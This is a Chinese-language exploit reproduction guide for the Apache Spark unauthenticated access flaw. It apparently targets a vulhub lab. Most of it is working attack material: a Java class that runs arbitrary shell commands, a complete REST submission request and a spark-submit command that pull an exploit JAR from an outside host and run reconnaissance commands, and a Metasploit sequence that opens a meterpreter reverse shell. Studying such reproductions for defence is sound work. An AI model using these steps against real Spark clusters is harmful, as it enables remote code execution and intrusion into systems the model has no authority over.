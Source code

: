 Apache Spark 未授权访问漏洞
===========================

一、漏洞简介
------------

Apache
Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

二、漏洞影响
------------

三、复现过程
------------

### 方法一

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

-   利用REST API
-   利用submissions网关（集成在7077端口中）

应用可以是Java或Python，就是一个最简单的类，

    import java.io.BufferedReader;
    import java.io.InputStreamReader;

    public class Exploit {
      public static void main(String[] args) throws Exception {
        String[] cmds = args[0].split(",");

        for (String cmd : cmds) {
          System.out.println(cmd);
          System.out.println(executeCommand(cmd.trim()));
          System.out.println("==============================================");
        }
      }

      // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
      private static String executeCommand(String command) {
        StringBuilder output = new StringBuilder();

        try {
          Process p = Runtime.getRuntime().exec(command);
          p.waitFor();
          BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

          String line;
          while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
          }
        } catch (Exception e) {
          e.printStackTrace();
        }

        return output.toString();
      }
    }

将其编译成JAR，放在任意一个HTTP或FTP上，如

`https://download.0-sec.org/Web安全/Apache Spark/Apache Spark 未授权访问漏洞.jar`。

#### 用REST API方式提交应用

standalone模式下，master将在6066端口启动一个HTTP服务器，我们向这个端口提交REST格式的API：

    POST /v1/submissions/create HTTP/1.1
    Host: www.0-sec.org:6066
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Content-Type: application/json
    Connection: close
    Content-Length: 680

    {
      "action": "CreateSubmissionRequest",
      "clientSparkVersion": "2.3.1",
      "appArgs": [
        "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
      ],
      "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
      "environmentVariables": {
        "SPARK_ENV_LOADED": "1"
      },
      "mainClass": "Exploit",
      "sparkProperties": {
        "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
        "spark.driver.supervise": "false",
        "spark.app.name": "Exploit",
        "spark.eventLog.enabled": "true",
        "spark.submit.deployMode": "cluster",
        "spark.master": "spark://your-ip:6066"
      }
    }

其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

![1.png](./.resource/ApacheSpark未授权访问漏洞/media/rId26.png)

返回的包中有submissionId，然后访问`http://www.0-sec.org:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

![2.png](./.resource/ApacheSpark未授权访问漏洞/media/rId27.png)

注意，提交应用是在master中，查看结果是在具体执行这个应用的slave里（默认8081端口）。实战中，由于slave可能有多个。

#### 利用submissions网关

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

    bin/spark-submit --master spark://www.0-sec.org:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest
api来提交应用；如果发现不是rest服务器，则会降级到使用submission
gateway来提交应用。

查看结果的方式与前面一致。

### 方法二

    msf5> use exploit/linux/http/spark_unauth_rce
    msf5> set payload java/meterpreter/reverse_tcp
    msf5> set rhost 被攻击ip
    msf5> set rport 6066
    msf5> set lhost 攻击ip
    msf5> set lport 4444
    msf5> set srvhost 1攻击ip
    msf5> set srvport 8080
    msf5> exploit

![1.png](./.resource/ApacheSpark未授权访问漏洞/media/rId30.png)

参考链接
--------

> https://vulhub.org/\#/environments/spark/unacc/

